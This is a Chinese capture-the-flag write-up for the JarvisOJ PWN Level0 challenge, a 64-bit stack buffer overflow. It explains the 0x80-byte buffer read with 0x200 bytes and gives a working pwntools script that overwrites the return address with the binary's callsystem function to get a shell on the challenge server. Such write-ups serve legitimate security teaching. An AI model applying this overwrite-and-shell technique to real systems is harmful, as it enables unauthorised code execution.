

# JarvisOJ-PWN-Level0

## 0x01 文件查看

```shell
file level0
```


检查之后发现文件是64位的elf程序

```shell
checksec level0
```




开了NX保护，可以防止栈上的数据运行，不过该题不需要运行栈上的shellcode，因为程序自带了shell函数
 
把程序仍到ida里面，按F5查看


查看vulnerable_function函数


程序定义了0x80长度的buf，但是read读取了0x200的长度，典型的缓冲区溢出

除此之外还有一个calllsystem函数，是程序自带的shell


这样的利用原理就是将通过溢出的信息将ret的地址复写成callsystem的地址


callsystem的地址是0000000000400596

payload的构造,因为是64位程序，所以ebp的长度是0x8
```python
callsystem_addr = 0x0000000000400596 
payload = "A"*(0x80+0x8)+p64(callsystem_addr)
```

最终程序就是
```
from pwn import *

conn = remote("pwn2.jarvisoj.com", 9881)

callsystem_addr = 0x0000000000400596

payload = "A"*(0x80+0x8)+p64(callsystem_addr)

conn.send(payload)

conn.interactive()
```


